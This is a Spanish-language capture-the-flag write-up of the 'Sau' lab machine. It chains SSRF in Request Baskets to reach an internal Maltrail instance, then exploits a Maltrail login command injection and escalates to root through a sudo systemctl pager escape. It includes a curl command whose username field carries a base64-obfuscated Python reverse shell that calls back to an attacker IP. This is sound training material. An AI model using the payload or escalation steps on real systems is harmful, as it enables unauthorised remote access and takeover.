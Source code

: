 ----
- Tags: #SSRF #rce #maltrail #gtfobins #port-discovery #seasson2
-------
## Técnicas utilizadas
- Port discovery through SSRF
- Maltrail abuse[Remote Code Execution]
- Systemctl sudo abuse
## Procedimiento

![[Sau.png]]

-------
#### Reconocimiento
Si lanzamos un **nmap** podemos ver los siguientes puertos abiertos:
```ruby
# # Nmap 7.93 scan initiated Sat Jul  8 12:14:22 2023 as: nmap -sCV -p22,55555 -oN Ports 10.129.150.8
Nmap scan report for 10.129.150.8
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sat, 08 Jul 2023 19:10:41 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sat, 08 Jul 2023 19:10:13 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sat, 08 Jul 2023 19:10:14 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=7/8%Time=64A9B596%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\x
SF:20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sat,\x2008\x20Jul\x202
SF:023\x2019:10:13\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/we
SF:b\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x2020
SF:0\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sat,\x2008\x20Jul\x202
SF:023\x2019:10:14\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,
SF:67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\
SF:x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")
SF:%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCont
SF:ent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r
SF:\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCo
SF:nnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"H
SF:TTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20ch
SF:arset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Ke
SF:rberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nC
SF:ontent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options:
SF:\x20nosniff\r\nDate:\x20Sat,\x2008\x20Jul\x202023\x2019:10:41\x20GMT\r\
SF:nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20name
SF:\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\n
SF:")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clos
SF:e\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul  8 12:16:00 2023 -- 1 IP address (1 host up) scanned in 97.35 seconds
```

Un escaneo con **whatweb** sobre la pagina web, nos muestra las siguientes tecnologías corriendo por detrás:
```ruby
# whatweb 10.129.150.8:55555/web
http://10.129.150.8:55555/web [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, IP[10.129.150.8], JQuery[3.2.1], PasswordField, Script, Title[Request Baskets]
```

--------
#### Port discovery through SSRF
En el inicio de la pagina, vemos que hay un tipo de **Generation of baskets**. Podemos crear uno e ir a inspeccionar de que se trata:
![[baskets.png]]

Creamos un nuevo basket y lo abrirmos. Podemos observar que tenemos la capacidad de mandar peticiones a la pagina y esta nos va a almacenar estas como en un **log**:
![[new_request.png]]

Tambien vemos algunos opciones disponibles a la hora de tramitar la petición:
![[basket_options.png]]

Si vamos al apartado con el simbologo de engranaje, podemos configurar algunas cosas interesantes:
![[Pasted image 20230708145018.png]]

Haciendo algunas pruebas, encontramos que la pagina es capaz de ver recursos internos en el servidor. Podemos intentar cargar algún puerto común de los que suelen estar abierto, en este caso intentare con el **80**:
![[port_80.png]]

---------------
#### Maltrail abuse[Remote Code Execution]
Vemos que hay una pagina corriendo internamente. Podemos mandar un curl y almacenar la respuesta en un archivo para ver el codigo fuente:
![[mailtrail.png]]

Se trata de **Maltrail**, en la parte inferior de la pagina viene la versión que esta actualmente en uso:
![[Pasted image 20230708145552.png]]

En **Google** podemos encontrar un PoC que nos muestra como ejecutar codigo remotamente en el servidor de la siguiente manera:
```
# curl -s -X POST "http://10.129.150.8:55555/vnzk6nc" --data 'username=`echo cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjY3Iiw0NDMpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJwo=|base64 -d|sh`'
```

Antes de realizar esto, necesitamos apuntar hacia el recurso **Login** que se encuentra en la pagina de **MalTrail**:
![[Pasted image 20230708145821.png]]

Y ahora si podemos ejecutar el RCE. En mi caso, utilizo una **zsh** y por algún motivo no me funciona corretamente, lo que tuve que hacer es ponerme en escucha dos veces, mando la reverse shell y posteriormente doy **Ctrl + C** y me llega la **Reverse Shell** a la otra consola. Quizás en una **bash** este problema no exista:
![[RCE.png]]

-------
#### Systemctl sudo abuse

Si hacemos un **sudo -l** vemos el siguiente privilegio que tenemos a nivel de **Sudoers**:
![[systemctl.png]]

Según [GTFobins](https://gtfobins.github.io/gtfobins/systemctl/#sudo), podemos escalar privilegios sin ejecutarmos el comando y tecleamos `!sh`, de la siguiente manera:
![[sh.png]]

Y ya podemos leer la flag de **root**:
![[79.  Sau/Images/root.png]]

